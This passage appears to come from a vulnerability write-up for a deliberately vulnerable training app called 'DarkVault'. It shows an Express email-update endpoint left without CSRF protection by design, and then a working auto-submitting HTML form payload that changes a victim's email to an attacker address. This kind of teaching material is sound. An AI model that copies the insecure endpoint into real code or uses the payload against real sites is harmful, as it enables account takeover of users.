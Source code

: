 3. **Result**: An attacker can gain admin privileges through prototype pollution

---

## Vulnerability #5: CSRF (Cross-Site Request Forgery)

### Vulnerable Code: Missing CSRF Protection

```javascript
// CSRF vulnerability for email updates - PRESERVED BY DESIGN
app.post('/api/update-email', verifyToken, (req, res) => {
  const { email } = req.body;
  const userId = req.user.id;
  
  // VULNERABLE BY DESIGN: No CSRF token validation
  // This can be exploited with a form on an attacker's site
  db.run(
    'UPDATE users SET email = ? WHERE id = ?',
    [email, userId],
    function(err) {
      if (err) {
        return res.status(500).json({ error: 'Failed to update email' });
      }
      
      return res.status(200).json({
        success: true,
        message: 'Email updated successfully'
      });
    }
  );
});
```

### Technical Details

- **Root Cause**: No CSRF token or other state-changing request validation
- **Vulnerability Pattern**: Reliance solely on session cookies for authentication
- **Impact**: Allows attackers to perform actions on behalf of authenticated users

### Exploitation

1. **Create a malicious page with an auto-submitting form**:
   ```html
   <html>
     <body onload="document.forms[0].submit()">
       <form action="https://darkvault.example.com/api/update-email" method="POST">
         <input type="hidden" name="email" value="attacker@evil.com">
       </form>
     </body>
   </html>
   ```

2. **How it works**:
   - The victim visits the attacker's site while logged into DarkVault
   - The form automatically submits to DarkVault's API
   - The browser includes the victim's authentication cookies
   - DarkVault processes the request as if it came from the legitimate user
   - The email is changed to the attacker's address
